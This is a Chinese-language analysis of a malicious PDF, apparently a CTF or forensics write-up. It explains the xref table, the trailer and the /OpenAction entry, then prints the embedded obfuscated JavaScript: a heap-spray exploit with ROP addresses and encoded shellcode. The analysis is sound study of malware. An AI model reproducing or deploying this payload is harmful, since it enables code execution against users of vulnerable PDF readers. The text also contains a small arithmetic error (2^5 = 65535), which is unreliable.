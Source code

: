 很明显，`xref`标志这部分是交叉引用表的开始，第一行数字 `0 15`说明对象号是从**0**开始，有**15**个对象

> <blockquote>
`0000000000 65535 f`，一般每个PDF文件都是以这一行开始交叉应用表的，说明对象**0**的起始地址为0000000000，产生号（generation number）为**65535**，也是最大产生号，不可以再进行更改，而且最后对象的表示是**f**, 表明该对象为**free**, 这里，大家可以看到，其实这个对象可以看作是**文件头**。
`0000000015 00000 n`表示对象是**1**，其偏移为 **0000000015**，**00000**表示该对象未被修改过，其最大值是$2^5$=65535，**n**表示该对象正在使用

```
trailer
&lt;&lt;
/Size 15
/Root 1 0 R
&gt;&gt;
startxref
44943
%%EOF
```
- Size 15：说明文件对象数量为15（和上面的对象署一致）
- Root 1 0 R：根对象号为1
- 44943：表示交叉引用表的偏移地址，从而从文档中找到所有对象的相对地址，进而访问对象
```
&lt;&lt;
    /Pages 2 0 R
    /Type /Catalog
    /OpenAction 11 0 R
    /AcroForm 13 0 R
&gt;&gt;
```

试用了`/OpenAction 11 0 R`，打开第11个文件体

```
&lt;&lt;
    /Type/Action/S/JavaScript/JS 12 0 R
&gt;&gt;
```

发先调用了JavaScript的脚本，而且脚本在第12个文件体中

```
var VJvRZHcFpjfNEpkTtnYAuxxDnlJnxpugNnYjtZbeoutMEBGfJGMSwXcJQNoxFbuCEXBnLOePlaWTfwDSAywBDbWXmgXXlgtJ = unescape;
var hIT = VJvRZHcFpjfNEpkTtnYAuxxDnlJnxpugNnYjtZbeoutMEBGfJGMSwXcJQNoxFbuCEXBnLOePlaWTfwDSAywBDbWXmgXXlgtJ( '%u4141%u4141%u63a5%u4a80%u0000%u4a8a%u2196%u4a80%u1f90%u4a80%u903c%u4a84%ub692%u4a80%u1064%u4a80%u22c8%u4a85%u0000%u1000%u0000%u0000%u0000%u0000%u0002%u0000%u0102%u0000%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9038%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0000%u0000%u0040%u0000%u0000%u0000%u0000%u0001%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9030%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0022%u0000%u0000%u0000%u0000%u0000%u0000%u0001%u63a5%u4a80%u0004%u4a8a%u2196%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0030%u0000%ua8a6%u4a80%u1f90%u4a80%u0004%u4a8a%ua7d8%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0020%u0000%ua8a6%u4a80%u63a5%u4a80%u1064%u4a80%uaedc%u4a80%u1f90%u4a80%u0034%u0000%ud585%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u000a%u0000%ua8a6%u4a80%u1f90%u4a80%u9170%u4a84%ub692%u4a80%uffff%uffff%uffff%uffff%uffff%uffff%u1000%u0000%uccdb%u74d9%uf424%u74ba%u5cde%u5eed%uc92b%u31b1%uc683%u3104%u1456%u5603%u3c60%u11a9%u4260%uea52%u2370%u0fda%u6341%u44b8%u53f1%u09ca%u18fd%ub99e%u6c76%ucd37%udb3f%ue061%u70c0%u6351%u8b42%u4386%u447b%u82db%ub9bc%ud616%ub515%uc785%u8312%u6315%u0568%u901e%u2438%u070f%u7f33%ua98f%u0b90%ub186%u36f5%u4950%ucdcd%u9b63%u2d1c%ue2cf%udc91%u2211%u3f15%u5a64%uc266%u997f%u1815%u3af5%uebbd%ue6ad%u3f3c%u6c2b%uf432%u2a3f%u0b56%u4093%u8062%u8712%ud2e3%u0330%u81a8%u1259%u6714%u4465%ud8f7%u0ec3%u0c15%u4d7e%ud373%ueb0c%ud331%uf40e%ubc65%u7f3f%ubbea%uaabf%u334f%uf78a%udcf9%u6253%u80b8%u5863%ubcfe%u69e7%u3b7e%u1bf7%u077b%uf0bf%u18f1%uf72a%u19a6%u947f%u8a29%u75e3%u2acc%u8981' );
var lQAMgbHqymZT = VJvRZHcFpjfNEpkTtnYAuxxDnlJnxpugNnYjtZbeoutMEBGfJGMSwXcJQNoxFbuCEXBnLOePlaWTfwDSAywBDbWXmgXXlgtJ( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
while (lQAMgbHqymZT.length + 20 + 8 &lt; 65536) lQAMgbHqymZT+=lQAMgbHqymZT;
OYBPCrfcAsMzkuAahWltVvxPTBqKupVrHmdBJkocCYiqZZUVgrYujDISrzqMHyrMXEELtKdFqSBhF = lQAMgbHqymZT.substring(0, (0x0c0c-0x24)/2);
OYBPCrfcAsMzkuAahWltVvxPTBqKupVrHmdBJkocCYiqZZUVgrYujDISrzqMHyrMXEELtKdFqSBhF += hIT;
OYBPCrfcAsMzkuAahWltVvxPTBqKupVrHmdBJkocCYiqZZUVgrYujDISrzqMHyrMXEELtKdFqSBhF += lQAMgbHqymZT;
```